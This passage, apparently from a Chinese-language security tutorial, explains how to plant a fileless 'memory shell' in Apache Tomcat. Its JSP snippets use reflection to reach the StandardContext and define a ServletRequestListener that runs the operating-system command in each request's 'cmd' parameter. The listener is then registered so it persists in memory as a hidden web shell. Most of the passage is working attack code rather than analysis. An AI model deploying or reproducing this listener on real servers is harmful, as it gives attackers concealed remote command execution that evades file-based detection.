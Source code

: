 我们查看`getApplicationEventListeners()`的内容，从中可以看出这里是通过`applicationEventListenersList`进行获取的。因此，我们只需要将我们的恶意的Listener注入到这个`List`当中即可。

#### （2）内存马

过程：

- 创建恶意Listener；
- 将其添加到ApplicationEventListener中去

同理，首先获取对应的`StandardContext`：

```jsp
<%
    Object obj = request.getServletContext();
    java.lang.reflect.Field field = obj.getClass().getDeclaredField("context");
    field.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) field.get(obj);
    //获取ApplicationContext
    field = applicationContext.getClass().getDeclaredField("context");
    field.setAccessible(true);
    StandardContext standardContext = (StandardContext) field.get(applicationContext);
%>
```

创建恶意的`Listener`：

```jsp
<%!
    public class ListenerDemo implements ServletRequestListener {
        public void requestDestroyed(ServletRequestEvent sre) {
            System.out.println("requestDestroyed");
        }
        public void requestInitialized(ServletRequestEvent sre) {
            System.out.println("requestInitialized");
            try{
                String cmd = sre.getServletRequest().getParameter("cmd");
                Runtime.getRuntime().exec(cmd);
            }catch (Exception e ){
                //e.printStackTrace();
            }
        }
    }
%>
```

将其添加到`ApplicationEventListener`中：

```jsp
<%
    ListenerDemo listenerdemo = new ListenerDemo();
    //创建能够执行命令的Listener
    standardContext.addApplicationEventListener(listenerdemo);
%>
```
